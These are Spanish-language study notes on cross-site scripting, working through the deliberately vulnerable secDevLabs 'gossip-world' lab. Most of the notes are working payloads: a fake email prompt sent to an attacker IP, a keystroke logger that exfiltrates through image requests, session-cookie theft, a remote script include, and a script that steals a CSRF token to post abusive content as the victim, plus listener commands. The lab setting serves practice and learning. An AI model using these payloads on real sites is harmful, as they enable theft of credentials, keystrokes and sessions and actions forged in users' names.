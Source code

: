 
----
- Tags : #Cross #Scrioting #XSS #PaginasWEb #Vulnerabilidades 
-----
Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

> **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, 
> que luego se ejecuta en el navegador del usuario.

 >**Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
 
 >**DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de Github correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

- **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)

# Iniciamos con la practica creando nuestro laboratorio

- Primero clonamos nuestro archivo GITHUB
```
git clone https://github.com/globocom/secDevLabs
```
-  Entraremos en /home/k/a/secDevLabs/owasp-top10-202/a3/gossip-world

- Luego desplegamos nuestro docker con
```
make install
```
- Nos creamos un usuario en el localhost:10007
- Creamos archivos con barios codigos html o javascript
- Creamos un archivo <script>list("XSS")</script> en la pagina web
- Luego creamos un archivo nvim 
```
<script>
	var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");
	
	if (email == null || email == ""){
       alert("Es necesario introducir un correo valido para visualizar el post");
    } else {
      fetch("http://192.168.111.45/?email=" + email);
    }
</script>
```

- Nos creamos el nuevo archivo en el localhost con el script en el comentario y luego visualizamos los datos ingresados por el puerto 80
```
python3 -m http.server 80
```

- Tambien lo podemos hacer con varias opciones como, solicitar usuario y contraseña con html o crear un **Keylogger** como el siguiente ejemplo
```
nvim keylogger.js
```

```
<script>
        var k = "";
        document.onkeypress = function(e){
                e = e || window.event;
                k += e.key;
                var i = new Image();
                i.src = "http://192.168.72.130/" + k;
        };      
</script>
```
- Si nos ponemos a la escucha con python con el siguiente comando podríamos observar de mejor manera el Keylogger
```
python3 -m http.server 80 2>&1 | grep -oP 'GET /\k[^,*\s]+'
```

- Ahora podemos crear una pagina que direccione a otra pagina
```
<script>
window.location.href = "https://hack4u.io";
</script>
```

- También podemos hacer que cuando se loguee, se este logueando en otra pagina
```
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.72.130/?cookie=' + document.cookie);
request.send();
```
- Hay que ingresar el script en la creación de pagina en el localhost **"<script src="http://192.168.111.45/test.js"></script>"**
- Nos ponemos en escucha con el python3 por el puerto 80 eh ingresamos a la pagina creada con el script de arriba
- Una vez robada la cookie de sesión se podría realizar un **cookie hijacking**

# Ahora intentaremos hacer otro ejercicio de una manera mas peculiar
- Si quisiera que algún trabajador de la empresa publique de manera automática al ingresar a un post un post de odio o parecido
- Para eso lo primero que haríamos seria abrir nuestro burpsuite e ingresamos desde el localhost usando la herramienta foxyproxy
- Si queremos tramitar por POST tenemos que encontrar un CSRF token valido para incorporarlo 

- Ahora crearemos un archivo para lanzar una petición a la pagina y almacenar la respuesta en una variable 
```
nvim pwned.js
```

```
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();

var response = req1.responseText;
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://192.168.111.45/?response=' + btoa(response));
req2.send();
```
  - Antes de esto debemos crear nuestro script en la pagina del localhost
```
<script src="http://192.168.72.130/pwned.js"></script>
```
- Entramos a la pagina creada desde el usuario test para obtener la response en **base64** y luego hacemos un 
```
echo -n "resultado" | base64 -d; echo
```
- Este comando nos permitirá encontrar el csrf token de sesion
- Una vez testiado el comando modificamos nuestro archivo para mejorar el resultado
```
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
ver data = "title=Mi%20jefe%20es%20un%20cabron&subtitle=JEFE%20CABRONASO&text=Odio%20,%20cabron&_csrf_token=" + token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```
>**Tips o datos:**
- El **prompt("Introduce tu correo, a@a.com" );** Muestra un mensaje de alerta pidiendo su correo
- La pagina https://jwt.io nos permite observar  jason wen tocken
- se debe inhabilitar la opción de "httpOnly" así podrán capturar la cookie en su servidor.